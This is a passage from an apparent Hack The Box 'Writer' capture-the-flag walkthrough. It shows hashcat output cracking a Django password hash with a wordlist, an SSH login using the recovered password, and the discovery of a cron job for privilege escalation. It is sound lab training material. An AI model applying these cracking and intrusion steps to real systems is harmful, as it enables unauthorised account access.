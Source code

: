 After approx. one minute we get the password:
```
pbkdf2_sha256$260000$wJO3ztk0fOlcbssnS1wJPD$bbTyCB8dYWMGYlz4dSArozTY7wcZCS7DV6l5dpuXM4A=:marcoantonio
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: Django (PBKDF2-SHA256)
Hash.Target......: pbkdf2_sha256$260000$wJO3ztk0fOlcbssnS1wJPD$bbTyCB8...uXM4A=
Time.Started.....: Thu Aug 19 14:44:45 2021 (1 min, 0 secs)
Time.Estimated...: Thu Aug 19 14:45:45 2021 (0 secs)
Guess.Base.......: File (/home/kali/Desktop/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:      161 H/s (6.08ms) @ Accel:64 Loops:512 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 9728/14344385 (0.07%)
Rejected.........: 0/9728 (0.00%)
Restore.Point....: 9216/14344385 (0.06%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:259584-259999
Candidates.#1....: rubberducky -> 20072007
```

We can now `ssh kyle@writer.htb` with password: `marcoantonio`.

## Root
Enumerating the file system and running your favorite enumeration scripts we find a cron job running which is also referenced inside the mails in /var/mail/www-data.
We can read them using our previous reverse shell and find:

```
[...]
Subject: Cron <www-data@writer> cd /var/www/writer2_project && python3 manage.py runserver 127.0.0.1:8080

August 19, 2021 - 15:08:02
Django version 3.2.3, using settings 'writerv2.settings'
Starting development server at http://127.0.0.1:8080/
Quit the server with CONTROL-C.
Performing system checks...

System check identified no issues (0 silenced).

August 19, 2021 - 15:10:01
Django version 3.2.3, using settings 'writerv2.settings'
Starting development server at http://127.0.0.1:8080/
Quit the server with CONTROL-C.
Performing system checks...

System check identified no issues (0 silenced).
[...]
```
So every two minutes there is a mail been sent to www-data@writer.htb.
